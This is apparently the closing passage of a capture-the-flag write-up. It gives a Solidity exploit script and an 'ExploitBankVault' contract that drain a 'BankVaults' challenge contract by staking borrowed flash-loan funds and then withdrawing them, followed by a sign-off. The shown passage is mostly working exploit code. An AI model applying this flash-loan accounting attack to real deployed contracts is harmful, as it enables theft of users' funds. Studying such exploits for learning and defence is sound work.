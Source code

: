 ```solidity
        ExploitBankVault exploit=new ExploitBankVault(bank);
        bank.stake{value:1}(msg.sender);
        bank.flashLoan(50 ether,address(exploit),block.timestamp+ 3* 365 days);
        bank.withdraw(50 ether,msg.sender,address(exploit));
        bank.stake{value:1}(msg.sender);
        bank.withdraw(2,msg.sender,msg.sender);
        vm.stopBroadcast();
    }
}

contract ExploitBankVault{
    BankVaults bank;

    constructor(BankVaults _bank){
        bank=_bank;
    }


    function executeFlashLoan(uint256 amount) external{
        bank.stake{value:50 ether}(address(this));
    }

    receive() external payable{}
}
```


<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>